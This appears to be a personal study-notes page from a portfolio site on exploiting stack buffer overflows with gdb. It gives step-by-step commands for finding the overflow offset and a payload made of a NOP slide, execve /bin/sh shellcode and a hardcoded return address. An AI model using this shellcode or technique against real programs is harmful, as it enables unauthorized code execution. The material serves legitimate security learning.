

repository: jh1h1h/portfolio · page: docs/general/Buffer Overflow.html · generator: docusaurus

Check defenses enabled using `gdb <binary file>` then `checksec` and use the appropriate section to exploit.

## No stack canary, ASLR

1. `pattern create 200` or more than 200 based on the size of the buffer.
2. `run $(python -c 'print "<output of prev command without the quotes>"')` (Use `run < <(python -c...)` if the user input is not supposed to be in the arguments)
![RBP override](./img/RBP-override.png)
3. `pattern offset <data inside RBP>` (refer to image below)
![pattern offset command](./img/pattern-offset.png)
4. [Find address of buffer](/docs/general/Buffer%20Overflow#finding-address-of-buffer). Then put it as the last 8 bytes in the command below (+offset a few bytes so that it will land on the NOP slide). Take note if ur system is using big endian or little endian.
5. `run $(python -c "print '\x90'*<offset-32> + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + '\x90'*16 + '\xb0\xe2\xff\xff\xff\x7f\x00\x00'")`
